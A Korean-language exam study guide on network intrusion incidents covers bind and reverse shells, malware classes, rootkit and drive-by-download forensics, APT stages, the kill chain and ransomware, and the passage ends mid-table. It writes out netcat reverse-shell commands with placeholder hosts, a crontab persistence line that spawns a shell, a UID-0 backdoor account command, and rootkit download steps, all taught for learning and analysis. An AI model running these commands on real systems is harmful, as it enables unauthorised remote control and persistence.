



# 06. 원격접속·악성코드·APT — 만화책처럼 읽는 네트워크 침해사고

> **이 문서를 읽는 법**: 만화책 한 권을 펼쳤다고 생각하세요. *에피소드*를 따라 *어떻게 침투 → 어떻게 쉘 획득 → 어떻게 은닉 → 어떻게 분석* 의 4 단계로 외우면 자연스럽게 정착됩니다.
> 정확한 명령·옵션·CVE 는 정확본을 참조: [[cs/information-security/02.network-security/06.remote-access-and-malware-tools|정확본 06. 원격접속·악성코드·APT]]

> **연결 단원**: 본 단원은 [[cs/information-security/01.system-security/06.system-attacks|1과목 06]] 의 *시스템 공격* 과 짝 — 1과목은 *시스템 자체* (백도어·BoF·Race Condition·시스템 자원 고갈), 본 단원은 *네트워크 침해사고* (쉘 획득·악성코드·APT·랜섬웨어·Shell Shock). [[cs/information-security/02.network-security/05.dos-ddos-drdos|05 단원]] 의 *봇넷·C&C·DGA*가 본 단원의 *APT 침투* 와 직결. [[cs/information-security/02.network-security/04.scanning-sniffing-spoofing|04 단원]] 의 *스니핑·스푸핑* 이 *DBD 공격 분석* 의 토대.

---

## 🎯 시작 전에 — 이미 들어본 침해사고 이름들

| 매일 듣는 것 | 사실은 이 단원의 |
|---|---|
| `nc -lvp 80` | **바인드 쉘 리스너** (서버) |
| `nc [IP] [Port] -e /bin/bash` | **리버스 쉘 커넥터** (서버 → 공격자) |
| `crontab -e` 의 `30 2 * * * root` | **cron 으로 리버스 쉘 지속성** 확보 |
| 침해 보고서의 *난독화 자바스크립트* | **16진수 (퍼센트 인코딩) 난독화** |
| *키로거 / 백도어 / 루트킷* | 악성코드 *행위 분류* 3 |
| *다운로더 / 드롭퍼 / 인젝터* | 악성코드 *진입 분류* 3 (인젝터 = 메모리 상주) |
| *Sandbox 분석 / 행위 분석* | **동적 분석** (정적 분석과 짝) |
| *Patch + Antivirus + Backup* | 랜섬웨어 *예방 3 핵심* (백업이 사실상 복구) |
| *Spear Phishing · Watering Hole · USB* | **APT 침투 3** |
| *Cyber Kill Chain* | Lockheed Martin (2011) — 6 동작 |
| *MITRE ATT&CK* | 실제 침해 사례 기반 전술·기법 |
| *Shellshock CVE-2014-6271* | bash 함수 선언문 + 임의 명령 실행 |
| *TEMPEST · 백색 잡음* | 방사 (Emanations) 차폐 표준 |

> **이 단원의 본질**: *기밀성·무결성·지속적 제어권*을 표적. *네트워크 관점*은 *(1) 어떤 경로로 침투, (2) 어떻게 쉘 획득, (3) 어떻게 은닉, (4) 어떻게 분석* 의 4 단계. **APT 8 단계** + **킬 체인 6 방어 동작**의 짝 + **분석 명령 (`netstat -antp` · `chkrootkit` · `rpm -V` S/5/T) 의 정확 기억**이 시험 1순위.

---

## 📖 에피소드 1 — 쉘 획득: Bind vs Reverse + cron 지속성

### 장면. 누가 listen 하는가

> *원격 접속 공격의 출발점*은 *쉘 획득*. **Bind ↔ Reverse** 의 본질 차이는 **누가 listen 하는가**.

### Bind Shell — 공격자가 접속

> **Bind Shell** = 공격자가 *타겟 서버에 접속*하여 *서버의 쉘 획득*. *서버가 리스너* 역할.

| 역할 | 명령 |
|---|---|
| **리스너 (서버)** | `nc "/bin/bash" -lvp 80` |
| **커넥터 (공격자)** | `nc [리스너의 IP] [리스너의 Port]` |

### Reverse Shell — 서버가 접속

> **Reverse Shell** = *역으로* 타겟 서버가 *공격자로 접속* → 공격자가 *서버의 쉘 획득*. *공격자가 리스너* 역할. **방화벽이 외부 나가는 트래픽 허용** 시 효과적.

| 역할 | 명령 |
|---|---|
| **리스너 (공격자)** | `nc -lvp 80` |
| **커넥터 (서버)** | `nc [리스너의 IP] [리스너의 Port] -e /bin/bash` |

### Bind ↔ Reverse — 핵심 차이

| | Bind | Reverse |
|---|---|---|
| 누가 listen? | **서버** | **공격자** |
| 누가 접속? | 공격자 → 서버 | 서버 → 공격자 |
| 방화벽 회피 | inbound 허용 환경 | **outbound 허용 환경** (효과적) |
| `nc` 옵션 | `-lvp` (서버) / 공격자는 직접 접속 | 공격자 `-lvp` / 서버 `-e /bin/bash` |

### cron 으로 지속성 확보

> *외부 접근* 위해 *리버스 쉘 명령을 cron 테이블 등록* → *주기적 쉘 획득*.

```bash
# /etc/crontab 에 등록
30 2 * * * root /usr/bin/nc [리스너 IP] [리스너 Port] -e /bin/bash
```

### 외우는 방법 — *누가 listen*

> *Bind = 서버 listen* / *Reverse = 공격자 listen*. *역방향이 Reverse*. *방화벽이 outbound 만 허용*하면 *Reverse 만 가능*.

### 시험 함정

| 함정 | 정답 |
|---|---|
| Bind Shell 의 리스너? | **서버** |
| Reverse Shell 의 리스너? | **공격자** |
| `-lvp` 양쪽 다 사용? | ✅ — *누가 listen 하느냐*만 차이 |
| 방화벽이 outbound 만 허용 시 효과적? | **Reverse Shell** |
| 지속성 확보 정석 패턴? | **리버스 쉘 + cron** |
| crontab 의 *30 2*? | *매일 02:30* |

---

## 📖 에피소드 2 — 익스플로잇 + 난독화 4 + 리버스 엔지니어링

### 장면 1. 취약점 + 쉘 코드 = 익스플로잇

> **익스플로잇 (Exploit)** = 소프트웨어·하드웨어 *버그·취약점*을 이용하여 공격자가 의도한 동작·명령을 실행하는 코드.

### 익스플로잇 = 취약점 + 쉘 코드

| 용어 | 의미 |
|---|---|
| **익스플로잇** | 취약점 + 의도한 동작 실행 *코드* |
| **쉘 코드** | 공격자가 의도한 *명령*을 담은 코드 |

### 장면 2. 난독화 (Obfuscation) — 분석을 어렵게

> **코드/바이너리 난독화** = 프로그램 코드를 *읽기 어렵게* 만드는 기술.

### 난독화 2 분류 (대상별)

| 분류 | 설명 |
|---|---|
| **소스코드 난독화** | C / C++ / JAVA 등 *소스코드를 알아보기 힘들게* |
| **바이너리 난독화** | 컴파일 후 바이너리를 *역공학으로 분석 어렵게* 변조 |

### 공격자가 난독화하는 이유 2

| 이유 | 의미 |
|---|---|
| 가독성 ↓ | *분석 어렵게* |
| 탐지 우회 | *패턴/시그너처 기반 보안장비* 우회 |

### 난독화 방식 4 종 — 시험 1순위

| 분류 | 동작 |
|---|---|
| **분할 난독화** | 악성코드를 *다수 문자열 변수로 잘게 쪼갠* 후 *재조합* |
| **10진수 난독화** | 각 문자를 *아스키코드 10진수*로 인코딩 |
| **16진수 난독화** | 문자열 바이트 단위 `%헥사값` 형식 (**퍼센트 인코딩 = URL 인코딩**) |
| **기타 난독화** | XOR 인코딩 / **BASE64 인코딩** 등 |

### 16진수 난독화 = URL 인코딩

> 16진수 난독화는 *퍼센트 인코딩 (URL 인코딩)* 형식. *DBD 공격에서 자주 사용* (에피소드 7).

### 장면 3. 리버스 엔지니어링 — 분석의 양면

> **리버스 엔지니어링** = 장치·시스템 구조를 *분석하여 원리 발견*. **공격자도 사용** (취약점 발견) **방어자도 사용** (난독화 해석).

### 공격 3 단계

```
1. 분석     — 시스템·프로그램 분석
2. 코드 생성 — 취약점 발견 + 공격 코드 생성
3. 난독화   — 분석 어렵게 + 탐지 우회
```

### 대응 — 코드 난독화

> *공격자도 난독화*, *방어자도 난독화* 한다. **양면성**이 시험 함정.

### 시험 함정

| 함정 | 정답 |
|---|---|
| 익스플로잇 = ? | 취약점 + **쉘 코드** |
| 난독화 4 종? | 분할 / 10진수 / **16진수** / 기타 |
| 16진수 난독화 형식? | **퍼센트 인코딩 (URL 인코딩)** |
| 기타 난독화 예? | **XOR · BASE64** |
| 난독화의 양면성? | 공격 (분석 회피) ↔ 방어 (코드 보호) |

---

## 📖 에피소드 3 — 악성코드 6 분류: 진입 3 + 행위 3

### 장면. 어떻게 들어오는가 + 들어와서 무엇을 하는가

> 악성코드는 **(1) 진입 방식** + **(2) 진입 후 행위** 의 2 축으로 분류.

### 진입 방식 3 — 다운로더·드롭퍼·인젝터

| 분류 | 핵심 차이 | 설명 |
|---|---|---|
| **다운로더** (Downloader) | *외부 주소 접속* | 지정한 외부 주소에 접속 → *추가 악성코드 다운로드* + 실행 |
| **드롭퍼** (Dropper) | *내부 데이터* | 다운로더와 유사하지만 *자신 내부 포함 데이터*로 악성코드 생성. *외부 접속 ❌* |
| **인젝터** (Injector) | **메모리 상주** | 드롭퍼의 *특수 형태*. *파일 생성 ❌* + *메모리에만 상주* (디스크 기반 백신 우회) |

### 외우는 방법 — *외부 / 내부 / 메모리*

> *Downloader = 외부* / *Dropper = 내부* / *Injector = 메모리*. **인젝터의 핵심 = 디스크 안 거치고 메모리만**.

### 행위 3 — 키로거·백도어·루트킷

| 분류 | 본질 |
|---|---|
| **키로거** (Keylogger) | 키보드 입력을 *중간에 가로채 기록* — *정보 수집형* |
| **백도어** (Backdoor) | *특정 포트 열어둠* + 정상 인증 우회 + 원격 조작 — *통제형* |
| **루트킷** (Rootkit) | *시스템 명령어 변조* + *프로세스 은닉* — *은닉형* |

### 루트킷의 본질 — 시험 1순위

> **루트킷 동작 3 단계**:
> 1. `/bin/ps` 와 `/bin/netstat` *실행파일을 변조*하는 rootkit 실행
> 2. 백도어 역할 프로세스가 *지속적으로 외부 연결 대기*
> 3. *변조된 ps·netstat* 가 백도어 프로세스를 *명령어에 노출시키지 않음*

### 정보 수집 ↔ 통제 ↔ 은닉

| | 정보 수집 | 통제 | 은닉 |
|---|---|---|---|
| 분류 | **키로거** | **백도어** | **루트킷** |
| 핵심 | 입력 가로채기 | 포트·인증 우회 | 명령어 변조·프로세스 은닉 |

### 시험 함정

| 함정 | 정답 |
|---|---|
| 다운로더 vs 드롭퍼 본질? | *외부 주소* ↔ *내부 데이터* |
| 인젝터의 핵심? | **메모리 상주** (파일 미생성) |
| 디스크 기반 백신 우회? | **인젝터** |
| 정보 수집형? | **키로거** |
| 통제형? | **백도어** |
| 은닉형? | **루트킷** |
| 루트킷의 변조 명령? | **`/bin/ps` · `/bin/netstat`** |

---

## 📖 에피소드 4 — 정적 vs 동적 분석 + 패킹

### 장면. *실행시키는가 안 시키는가*

> 악성코드 분석은 **"실제로 실행시키는가"** 한 기준. *정적 (실행 X)* vs *동적 (실행 O)*.

### 정적 ↔ 동적 분석 — 시험 1순위

| 분석 | 영문 | 동작 | 속도 | 신종 탐지 | 약점 |
|---|---|---|---|---|---|
| **정적 분석** | Static | *디버거·디스어셈블러*로 코드 자체 검사 | **빠름** | **❌** (알려진 패턴만) | 신종 놓침 |
| **동적 분석** | Dynamic (= **행위 분석**) | *격리 환경 (샌드박스·가상머신)* 에서 *실제 실행* + 행위 관찰 | **느림** | **✅** | *분석 환경 감지 시 회피* |

### 동적 분석의 행위 관찰 항목

> 비정상 *레지스트리 변경* / *악성코드 다운로드* / *C&C 서버 접속* / *파일 생성*. **= 행위 분석**.

### 정적·동적 = 상호 보완

> *둘 다 사용*. 정적 = 빠른 1차 필터, 동적 = 신종 정밀 탐지. 침해사고 분석에서 *반드시 둘 다*.

### 패킹 (Packing)

> **패킹** = 실행파일 *크기 축소* + *내부 코드·리소스 감춤* (압축 또는 암호화). **언패킹** = 패킹된 파일을 *푸는 것*.

### 패킹 → 분석 회피

> 패킹된 악성코드는 *디스어셈블러로 직접 분석 어려움* → *언패킹 후 분석* 필수.

### 시험 함정

| 함정 | 정답 |
|---|---|
| 정적 분석 도구? | **디버거 · 디스어셈블러** |
| 동적 분석의 다른 이름? | **행위 분석** |
| 정적 ↔ 동적 속도? | 빠름 ↔ 느림 |
| 정적 ↔ 동적 신종 탐지? | ❌ ↔ **✅** |
| 동적 분석 환경? | *샌드박스 · 가상머신* |
| 패킹 = ? | **압축 + 암호화** |

---

## 📖 에피소드 5 — 침해사고 1: 리버스 쉘 공격·분석 시나리오

### 장면. 공격에서 분석까지

> *리버스 쉘* 공격이 침해사고로 발견되면 *흔적*을 추적해야 한다. *공격 5 단계 → 분석 4 단계*.

### 리버스 쉘 공격 5 단계

```
1. Telnet 무작위 대입·사전 공격 → root 패스워드 탈취 + 쉘 획득
2. 탈취한 root 계정으로 Telnet 원격 로그인
3. useradd -o -u 0 -g 0 /root attack    # root 권한 일반 사용자 계정 생성
4. cron 등록: 30 2 * * * root /usr/bin/nc [리스너 IP] [리스너 Port] -e /bin/bash
5. 공격자: 주기적 쉘 획득 + 추가 공격 명령
```

### `useradd -o -u 0 -g 0` 의 의미

> **`-o`** = UID 중복 허용 / **`-u 0`** = UID = 0 (root) / **`-g 0`** = GID = 0 (root group). 결과: *root 권한의 일반 사용자 계정* 생성. 1과목 03 단원 § UID 0 = root 와 직결.

### 리버스 쉘 분석 4 단계 — 시험 1순위

| 단계 | 명령 / 확인 |
|---|---|
| 1 | **`/var/secure` · `/var/messages`** 로그 → 다수 root 로그인 *실패 + 성공* 기록 |
| 2 | **`.bash_history`** + **`/etc/passwd`** (UID·GID 모두 0) + **`/etc/crontab`** 확인 |
| 3 | **`netstat -antp \| grep [공격자 IP]`** 명령으로 **PID 확인** |
| 4 | **`ps -ef \| grep [PID] \| grep -v grep`** 명령으로 *공격자 ↔ Bash 쉘 연결* 확인 |

### 핵심 분석 명령 한 줄

> *netstat 으로 PID 찾고 → ps 로 프로세스 확인*. 본 단원 *모든 침해사고 분석의 기본 패턴*.

### 외우는 방법 — *로그 → bash_history → passwd → crontab → netstat → ps*

> *로그 (실패+성공) → 명령 이력 → 계정 생성 → cron 등록 → 네트워크 → 프로세스* 의 *시간 순 추적*.

### 시험 함정

| 함정 | 정답 |
|---|---|
| 1단계 침투? | Telnet 무작위 대입·사전 공격 |
| `useradd -o -u 0 -g 0`? | *root 권한 일반 계정 생성* |
| cron 시간 표기? | `30 2 * * *` (매일 02:30) |
| 분석 1단계 로그? | **`/var/secure` · `/var/messages`** |
| 명령 이력 파일? | **`.bash_history`** |
| 계정 생성 확인? | **`/etc/passwd`** (UID·GID 모두 0) |
| 네트워크 확인 명령? | **`netstat -antp`** |
| 프로세스 확인 명령? | **`ps -ef`** |

---

## 📖 에피소드 6 — 침해사고 2: 루트킷 공격·분석 시나리오

### 장면. 변조된 명령어와 무결성 검증

> *루트킷*은 *시스템 명령어 자체를 변조*하여 *프로세스를 은닉*. 분석은 *무결성 검증*이 핵심.

### 루트킷 공격 7 단계

```
1. Nessus 로 웹서버 취약점 스캔 → Tomcat 관리자 페이지 외부 공개 + 초기 ID/PW 확인
2. 관리자 페이지 익스플로잇 → 백도어 쉘 코드 → 루트 권한 리버스 쉘 연결
3. /tmp 이동 + wget [URL] 로 루트킷 프로그램 다운로드
4. 루트킷 파일명을 *패치파일*처럼 위장
5. tar 압축 해제 + install 명령으로 루트킷 실행
6. cron 등록: echo "0 3 * * * root /usr/bin/nc ... -e /bin/bash" >> /etc/crontab
7. 공격자: 주기적 쉘 획득 + 추가 공격
```

### 루트킷 분석 14 단계 — 핵심 도구·명령

| 단계 | 명령 |
|---|---|
| 1 | Tomcat 액세스 로그 분석 |
| 2 | **`chkrootkit`** → `netstat` 변조 확인 |
| 3 | `ps` 결과 *11 개 프로세스 숨김* |
| 4 | **`find /bin/ -type f -mtime -10 \| xargs ls -l`** → 최근 10일 수정 파일 |
| 5 | `rpm -qf /bin/netstat /bin/ps` → RPM 패키지 확인 |
| 6 | **`rpm -V net-tools procps`** → 무결성 체크 (**S / 5 / T**) |
| 7 | `rpm -Uvh --force [패키지]` → 변조 명령어 *재설치 시도* |
| 8 | 재설치 오류 → **`lsattr /bin/netstat /bin/ps`** → **`i` 속성 (immutable)** 확인 |
| 9 | **`chattr -i /bin/netstat /bin/ps`** → i 속성 제거 + 재설치 성공 |
| 10 | `ps -ef \| grep "nc -v"` → nc 프로세스 확인 |
| 11~14 | netstat · /var/log/cron · /etc/crontab → 공격자 IP·PID·세션 확인 |

### `rpm -V` 의 S / 5 / T — 시험 1순위

| 플래그 | 의미 |
|---|---|
| **S** | 파일 *크기* 변경 |
| **5** | **MD5 체크섬** 변경 |
| **T** | 파일 *수정 시간* 변경 |

### `lsattr` / `chattr -i` — immutable 속성

| 명령 | 동작 |
|---|---|
| **`lsattr [파일]`** | 파일 속성 *조회* — `i` 속성 (immutable) 확인 |
| **`chattr -i [파일]`** | *immutable* 속성 *제거* (재설치 가능 상태로) |

### `lsof` — 프로세스 정보 확인

> 루트킷 등에 의해 *공격자 구동 프로세스 정보를 제대로 볼 수 없을 때* **`lsof`** 프로그램으로 확인.

### 외우는 방법 — *chkrootkit → mtime → rpm -V → lsattr → chattr -i*

> *루트킷 탐지 → 최근 변경 → 무결성 검증 → immutable 확인 → 속성 제거*. *변조 → 검증 → 복구* 의 시간 순.

### 시험 함정

| 함정 | 정답 |
|---|---|
| 루트킷 탐지 도구? | **`chkrootkit`** |
| 최근 변경 파일 검색 옵션? | **`-mtime -10`** |
| 무결성 검증 명령? | **`rpm -V`** |
| `rpm -V` 의 S / 5 / T? | **크기 / MD5 / 수정 시간** |
| immutable 속성 제거 명령? | **`chattr -i`** |
| immutable 조회 명령? | **`lsattr`** |
| 루트킷 환경에서 프로세스 확인? | **`lsof`** |

---

## 📖 에피소드 7 — 침해사고 3: DBD 공격 + 경유지·중계지·유포지

### 장면. 합법 사이트가 공격 도구로

> **DBD (Drive By Download)** = 취약 홈페이지 해킹 → 사용자 PC 취약점 익스플로잇 → *사용자가 의도와 무관*하게 악성코드 다운로드·설치되는 공격.

### 핵심 3 사이트 — 시험 1순위

| 사이트 | 영문 | 역할 |
|---|---|---|
| **경유지** | Stepping Stone | 사용자가 *처음 접속*하는 합법 사이트. 변조되어 *중계지로 리다이렉트* |
| **중계지** | Relay | 다시 *유포지로 리다이렉트* |
| **유포지** | Distribution Site | 실제 *악성코드 배포* 서버 |

### DBD 공격 6 단계

```
1. 공격자: 취약점 스캔으로 경유지·중계지 웹서버 확보
2. A·B 웹서버에 파일 업로드 취약점 → 웹쉘 + 악성 자바스크립트 업로드
3. 웹쉘로 A 페이지 변조: 첫 JS=iframe B 이동 (난독화) / 두 번째 JS=쿠키 탈취
4. B 페이지에 유포지 C 로 이동시키는 iframe 삽입 (폭·높이 0 + src 리다이렉트)
5. 유포지 접속 사용자 브라우저 익스플로잇 → 리버스 쉘
6. A 의 두 번째 JS 로 사용자 쿠키 탈취 → 공격자 웹서버
```

### DBD 분석 도구 3 (Windows) — 시험 1순위

| 도구 | 용도 |
|---|---|
| **IECacheView** | IE 브라우저 *캐시 정보* 확인 → 8080 포트 유포 페이지 이동 코드 |
| **TCPView** | 설치된 악성코드의 *공격자 서버와의 TCP 연결* 확인 |
| **Process Explorer** | 동작 중인 *악성코드 프로세스 상태정보* 확인 |

### 16진수 난독화 + `unescape()`

> DBD 공격 1단계 자바스크립트는 *16진수 난독화*. *`unescape()`* 함수로 *복호화* 후 iframe·이미지 객체 코드 노출.

### `referer` 헤더 — 추적 단서

> 유포 페이지 HTTP 요청 헤더의 **`referer` 헤더 필드**에 *이전 중계 페이지 정보* → *경유 → 중계 → 유포* 순서 추적 가능.

### 외우는 방법 — *Stepping → Relay → Distribution*

> *처음 발 디딤 → 중계 → 배포*. *합법 사이트 (경유) → 변조된 중계지 → 악성 유포*의 *3 단 사슬*.

### 시험 함정

| 함정 | 정답 |
|---|---|
| DBD 풀이? | **Drive By Download** |
| 처음 접속 사이트? | **경유지** (Stepping Stone) |
| 리다이렉트 사이트? | **중계지** (Relay) |
| 악성코드 배포? | **유포지** (Distribution Site) |
| iframe 의 폭·높이? | **0** (사용자 인지 ❌) |
| 분석 도구 — 캐시? | **IECacheView** |
| 분석 도구 — TCP 연결? | **TCPView** |
| 분석 도구 — 프로세스? | **Process Explorer** |
| 16진수 난독화 복호 함수? | **`unescape()`** |
| 추적 단서 헤더? | **`referer`** |

---

## 📖 에피소드 8 — APT 정의 + 8 단계

### 장면. 지능형·지속적 위협

> **APT (Advanced Persistent Threat)** = 특정 표적 대상으로 *취약점 파악* + *다양한 공격 기법 조합* + *지속적 공격 활동*.

### APT 의 두 본질 — 지능적·지속적

| 특성 | 의미 |
|---|---|
| **지능적** (Advanced) | 단일 기법 ❌ + 사회공학·제로데이 등 *다양한 기법 조합* |
| **지속적** (Persistent) | 목표 달성까지 *장기간 + 흔적 없이 + 은밀하게* |

### APT 공격 8 단계 — 시험 1순위

| 단계 | 영문·설명 |
|---|---|
| **1. 초기 정찰** | *공개 정보* 활용한 공격 목표 정보 수집 |
| **2. 초기 침입** | 내부 네트워크에 *초기 악성코드* 유입·침투 |
| **3. 거점 마련** | 백도어 + 공격자 연결 + 추가 공격 도구 다운로드 |
| **4. 권한 상승** | 시스템 관리자 권한 → 익스플로잇·*제로데이* |
| **5. 내부 정찰** | 공격 도구로 *내부 시스템·네트워크 정보 수집* |
| **6. 내부 침투** | 다른 시스템 추가 공격 + *제어 권한 탈취* |
| **7. 지속성 유지** | 백도어 지속성 → *윈도우 레지스트리 조작* |
| **8. 목표 달성** | 정보 유출·시스템 파괴 등 |

### 외우는 방법 — *정찰 → 침입 → 거점 → 권한 → 정찰 → 침투 → 지속 → 목표*

> *외부 정찰 → 첫 침입 → 거점 마련 → 권한 상승 → 내부 정찰 → 측면 이동 → 지속성 → 목표*. *외부 → 내부 → 영구* 의 *3 축*.

### 외부 정찰 ↔ 내부 정찰

> *1 단계 외부 정찰* (공개 정보) ↔ *5 단계 내부 정찰* (탈취한 권한으로 내부). *같은 "정찰" 이지만 단계가 다르다*.

### 시험 함정

| 함정 | 정답 |
|---|---|
| APT 풀이? | **Advanced Persistent Threat** |
| 두 본질? | **지능적 + 지속적** |
| 1 단계? | **초기 정찰** |
| 4 단계? | **권한 상승** (제로데이 활용) |
| 7 단계? | **지속성 유지** (레지스트리 조작) |
| 8 단계? | **목표 달성** |

---

## 📖 에피소드 9 — APT 침투 3: 스피어 피싱 + 워터링 홀 + USB

### 장면. 어떻게 첫 발을 디디는가

> APT *2 단계 초기 침입*의 3 대표 기법. **스피어 피싱 / 워터링 홀 / USB**.

### 침투 3 — 시험 1순위

| 기법 | 영문 어원 | 동작 |
|---|---|---|
| **스피어 피싱** | **S**pear (작살) **P**hishing | *특정인 표적* + 사전 조사 (이름·소속·관심사) + *신뢰 발신자처럼 위장* + 위장 이메일 + 악성 사이트·첨부 |
| **워터링 홀** | **W**atering **H**ole (사냥감이 마시는 물웅덩이) | *자주 방문 사이트 사전 파악* + *제로데이로 사이트 감염* + 접근 시 자동 감염 |
| **USB 메모리 스틱** | — | *물리 매체* + 타겟 동선상에 *방치* + 누군가 가져가서 *연결 순간 감염* |

### 외우는 방법 — *작살 / 물웅덩이 / 물리*

> *Spear (작살) = 특정인 표적* / *Watering Hole (물웅덩이) = 자주 방문 장소에 함정* / *USB = 물리 매체*. *영문 어원이 곧 동작*.

### 일반 피싱 ↔ 스피어 피싱

| | 일반 피싱 | 스피어 피싱 |
|---|---|---|
| 표적 | *불특정 다수* | **특정인** |
| 발신자 위장 | 일반 | *신뢰 발신자처럼 사전 조사* |
| 효과 | 낮음 | **높음** (APT 단골) |

### 워터링 홀 ↔ DBD

> 비슷해 보이지만 *목표 차이*. **DBD = 불특정 다수 노린다** (일반 사용자 PC 감염). **워터링 홀 = 특정 타겟이 자주 가는 곳을 감염** (APT 의 표적성).

### 시험 함정

| 함정 | 정답 |
|---|---|
| 스피어 피싱 표적? | **특정인** |
| 스피어 피싱 사전 조사? | 이름·소속·관심사 |
| 워터링 홀 어원? | *사냥감이 마시는 물웅덩이* |
| 워터링 홀 사용 취약점? | **제로데이** |
| USB 침투 동작? | *동선상 방치 + 연결 시 감염* |
| 일반 피싱 ↔ 스피어 피싱? | 불특정 ↔ **특정인** |

---

## 📖 에피소드 10 — 사이버 킬 체인 6 + MITRE ATT&CK

### 장면 1. 한 단계 끊으면 끝

> **사이버 킬 체인 (Cyber Kill Chain)** = 공격 단계 중 *한 단계를 탐지·차단*하여 *목표 달성 이전에 선제 무력화*하는 방어 시스템. **Lockheed Martin (2011)** 발표.

### 6 방어 동작 — 시험 1순위

| 동작 | 설명 |
|---|---|
| **탐지** | 공격 행위 *발견* |
| **거부** | 공격자 *접근 차단* |
| **교란** | 정보 *흐름 방해* |
| **약화** | 공격 행위 *효율·효과 감소* |
| **기만** | 정보 조작 + 공격자 *잘못된 판단 유도* |
| **파괴** | 공격자·도구의 *원래 기능 손상* |

### 외우는 방법 — *탐지 → 거부 → 교란 → 약화 → 기만 → 파괴*

> *발견 → 차단 → 방해 → 감소 → 속임 → 손상*. *수동 → 능동 → 적극적 무력화* 의 단계.

### 사이버 킬 체인 7 단계 ↔ 6 방어 동작

> [[cs/information-security/01.system-security/06.system-attacks|1과목 06 §7]] 의 *공격 7 단계* (Reconnaissance / Weaponization / Delivery / Exploitation / Installation / Command & Control / Actions on Objectives) ↔ *본 단원의 6 방어 동작*. **공격 ↔ 방어 짝**.

### 장면 2. MITRE ATT&CK — 실제 사례 기반

> **MITRE ATT&CK** = *실제 사이버 공격 사례* 관찰 → *공격 방법·기술* 관점 분석 → *공격 그룹별 기법* 분류·목록화. **MITRE Corporation** 운영.

### Kill Chain ↔ MITRE ATT&CK

| | Kill Chain | MITRE ATT&CK |
|---|---|---|
| 출처 | **Lockheed Martin** (2011) | **MITRE Corporation** (2013~) |
| 본질 | *시간 축* (7 단계) | *기법 카탈로그* (Tactics × Techniques) |
| Tactics | 7 | **14** |
| 활용 | 시나리오 단계 식별 | 탐지 룰 / 방어 매핑 / Red·Blue Team |

### Enterprise ATT&CK 14 Tactics — 1과목 06 §7 cross-ref

> 상세 14 Tactics 분류는 [[cs/information-security/01.system-security/06.system-attacks#7-3. MITRE ATT&CK 매트릭스|1과목 06 §7-3]] 참조. *Initial Access → Privilege Escalation → Lateral Movement → Exfiltration* 이 침해사고 시나리오 표준 흐름.

### 시험 함정

| 함정 | 정답 |
|---|---|
| Kill Chain 개발 주체·연도? | **Lockheed Martin (2011)** |
| Kill Chain 6 방어 동작? | 탐지 / 거부 / 교란 / 약화 / 기만 / 파괴 |
| 공격 단계 7 ↔ 방어 동작 6? | *짝을 이룸* |
| MITRE ATT&CK 운영? | **MITRE Corporation** |
| Tactics 수? | **14** (Enterprise) |
| Kill Chain ↔ ATT&CK 본질? | *시간 축* ↔ *기법 카탈로그* |

---

## 📖 에피소드 11 — 공급망 공격 + 랜섬웨어 (Ransomware) 4 경로

### 장면 1. 공급망 자체를 노린다

> **공급망 공격 (Supply Chain Attack)** = 공급망에 침투 → 사용자에게 전달되는 *S/W·H/W 변조*.

### 공급망 공격 4 경로

| 경로 | 의미 |
|---|---|
| **빌드/업데이트 인프라 변조** | *개발·배포 시스템* 자체 변조 |
| **인증서·개발 계정 유출** | *서명·계정 권한* 탈취 후 변조 |
| **하드웨어·펌웨어 변조** | *장치 자체* 변조 |
| **악성코드 감염 제품 판매** | *애초에 감염된* 제품 |

### 공급업체 대응 3

| 항목 | 내용 |
|---|---|
| **개발자 PC + 빌드/업데이트 서버 관리 강화** | 보안 우선 |
| **SDLC 가이드라인** | 개발 + 유지 보수 보안성 |
| **공급망 공격 이해 + 취약 부분 점검** | 사례 기반 보완 |

### 기업·기관 대응 3

| 항목 | 내용 |
|---|---|
| **가시성 확보** | 어떤 S/W 가 업데이트되는지 + 불필요한 S/W 파악 |
| **최신 패치** | 보안 S/W 최신 업데이트 |
| **지속적 보안 교육** | *직원 교육이 기본* |

### NIST SP 800-161 Rev.1 — 공급망 보안 표준

> **C-SCRM** (Cybersecurity Supply Chain Risk Management) 프레임워크 + 통제. *NIST SP 800-161 Rev.1 (2022)*.

### 장면 2. 랜섬웨어 (Ransomware)

> **랜섬웨어 (Ransomware)** = *데이터 암호화* + *복구를 위한 금전 요구* 악성코드.

### 감염 경로 4 — 시험 1순위

| 경로 | 설명 |
|---|---|
| **신뢰할 수 없는 사이트** | *홈페이지 방문만으로* 감염 |
| **스팸메일·스피어 피싱** | 출처 불분명 메일 + 파일·URL |
| **파일 공유 사이트** | **P2P** 다운로드 |
| **사회관계망 서비스** | **SNS** 단축 URL·사진 |

### 예방 3 핵심 — 시험 1순위

| 항목 | 핵심 |
|---|---|
| **최신 패치** | 모든 S/W 업데이트 + 백신 최신 |
| **실행 주의** | 출처 불명 메일·링크·P2P 실행 ❌ |
| **자료 백업** | 정기 별도 매체·클라우드 백업 |

### 백업이 사실상 복구 수단

> *암호화 후 복구 불가능* → **백업이 사실상 유일한 복구 수단**. 패치·실행 주의는 *예방*, 백업은 *복구*.

### 시험 함정

| 함정 | 정답 |
